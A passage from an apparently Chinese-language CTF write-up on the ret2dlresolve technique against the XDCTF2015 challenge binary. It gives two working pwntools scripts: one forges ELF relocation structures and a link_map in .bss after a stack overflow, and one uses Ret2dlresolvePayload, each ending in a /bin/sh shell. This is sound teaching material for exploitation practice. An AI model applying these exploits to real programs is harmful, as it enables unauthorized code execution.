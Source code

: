 ```python

if l_addr < 0:  
   l_addr = l_addr + 0x10000000000000000

p.recvuntil('Welcome to XDCTF2015~!\n')

# 伪造各个节
payload1  = p64(6) + p64(write_got - 0x8 - 0x18)        # DT_SYMTAB
payload1 += p64(0x17) + p64(bss_addr + 0x8 * 4)         # JMPREL
payload1 += p64(write_got - offset) + p64(0x100000007) + p64(0) # Elf64_Rel
# 伪造link_map
payload2  = p64(l_addr)
payload2  = payload2.ljust(0x68, b'\x00')
payload2 += p64(DT_STRTAB)                              # 指向字符串表
payload2 += p64(bss_addr)                               # 指向伪造的Elf64_Sym
payload2  = payload2.ljust(0xF8, b'\x00')
payload2 += p64(bss_addr + 0x8 * 2)                     # 指向伪造的Elf64_Rel
# 合成最终payload
payload   = payload1 + payload2
payload   = payload.ljust(0x200, b'\x00')
payload  += b'/bin/sh\x00'

# 往bss中写入伪造数据
p.send(b'a' * 120 + csu(read_got, 0, bss_addr, len(payload)) + p64(vuln_addr))
p.send(payload)

# 调用_dl_resolve_call函数重定向write函数
p.send(b'a' * 120 + p64(dl) + p64(bss_addr + len(payload1)) + p64(0) + p64(vuln_addr))

# 执行strlen函数
p.send(b'a' * 120 + csu(write_got, bss_addr + 0x200, 0, 0) + p64(vuln_addr))

p.interactive()
```

## 使用工具

以main_partial_relro_32举例

```python
from pwn import *
context(arch='i386', os='linux', log_level='debug')
p    = process("./main_partial_relro_32")
elf    = ELF("./main_partial_relro_32")
rop    = ROP("./main_partial_relro_32")

p.recvuntil("Welcome to XDCTF2015~!\n")

dl = Ret2dlresolvePayload(elf, symbol = "system", args = ["/bin/sh"])
rop.read(0, dl.data_addr)
rop.ret2dlresolve(dl)

p.send(b'a' * 112 + rop.chain())
p.send(dl.payload)

p.interactive()
```
